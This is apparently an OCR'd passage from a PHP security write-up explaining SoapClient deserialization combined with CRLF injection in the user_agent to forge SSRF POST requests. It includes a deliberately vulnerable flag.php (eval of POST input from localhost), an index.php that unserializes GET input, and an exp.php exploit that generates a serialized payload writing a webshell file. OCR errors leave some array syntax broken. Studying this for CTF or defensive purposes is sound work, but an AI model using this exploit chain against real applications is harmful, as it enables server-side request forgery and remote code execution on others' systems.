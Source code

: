  - Under normal circumstances, the SoapClient class calls a non-existent function and will call the __call method and issue a request
- The user_agent of the request packet issued by SoapClient is completely controllable. Combined with CRLF injection, a fully controllable POST request can be constructed, because the most critical Content-Length and Content-Type of the POST request are both under the user_agent
- If it is a GET request, it is much simpler. Just construct the location
- It should be noted that SoapClient will only make requests and will not receive responses

Example

```php
flag.php

<?php
if($_SERVER['REMOTE_ADDR']=='127.0.0.1'){
    eval($_POST['a']);
}
?>

index.php

<?php
$c=unserialize($_GET['a']);
$c->ss();
?>

exp.php

<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'a=file_put_contents("shell.php", "<?php phpinfo();?>");';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: aaaa=ssss'
);
$user_agent = 'aaa^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^^'.$post_string;
$options = array(
    'location' =$target,
    'user_agent'=$user_agent,
    'uri'="aaab"
);

$b = new SoapClient(null, $options);

$aaa = serialize($b);
$aaa = str_replace('^^', '%0d%0a', $aaa);
$aaa = str_replace('&', '%26', $aaa);
echo $aaa;

?>
```
